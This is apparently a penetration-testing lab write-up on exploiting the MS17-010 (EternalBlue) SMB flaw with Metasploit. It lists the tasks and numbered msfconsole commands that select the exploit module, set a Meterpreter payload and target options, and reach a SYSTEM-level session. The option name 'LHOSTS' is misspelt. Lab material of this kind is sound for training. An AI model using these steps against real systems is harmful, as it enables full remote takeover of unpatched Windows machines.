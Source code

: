# Use Metasploit To Exploit MS17-010
The EternalBlue exploit targets a vulnerability in the Server Message Block (SMB) protocol, which was patched with the MS17-010 update. However, many systems remain unpatched, leaving them susceptible to this attack. The exploit can be delivered via phishing emails or malicious websites. Penetration testers can use Metasploit to identify hosts vulnerable to the EternalBlue exploit by scanning for the MS17-010 flaw. Once a vulnerable system is found, the tester can deploy and execute a malicious payload on the target using Metasploit.

## Tasks
- Execute the appropriate MS17-010 exploit from Metasploit against the target machine to exploit the vulnerability
- Use the "getuid" command within the Meterpreter session
- After successful exploitation, verify that you have gained a Meterpreter session
- Demonstrate you are running as "NT AUTHORITY\SYSTEM" when executing "getuid" within the Meterpreter session

## Solutions
1. Launch Metasploit in Kali Linux with the command `msfconsole`
2. Run the command `search ms17-010`
3. Choose a module. For automatic modules, simply enter `use 0`. Note that since no payload was configured, it defaults to `windows/x64/meterpreter/reverse_tcp`
4. Enter `show payloads`, and choose a payload number 26 `payload/windows/x64/meterpreter/bind_tcp_rc4` using `set payload 26`
5. To set the target's IP address, enter `show options` and `set RHOSTS <target_IP_address>`
6. Ensure the local machine's IP address is correct, otherwise set it using the `set LHOSTS <local_ip_address>` command
7. (Optional) Enter `set GroomAllocations 10` and `set GroomDelta 5` for controlling how memory is arranged on the target computer during an exploit. GroomAllocations decides how many memory spaces the exploit creates to prepare the computer's memory, while GroomDelta fine-tunes the size of the memory spaces

Screenshot of Metasploit successfully exploiting MS17-010 vulnerability with an active Meterpreter session shown below: <br/>
![image](https://github.com/user-attachments/assets/6c8cfafb-7834-4b86-8c90-dbfe87114ffe)
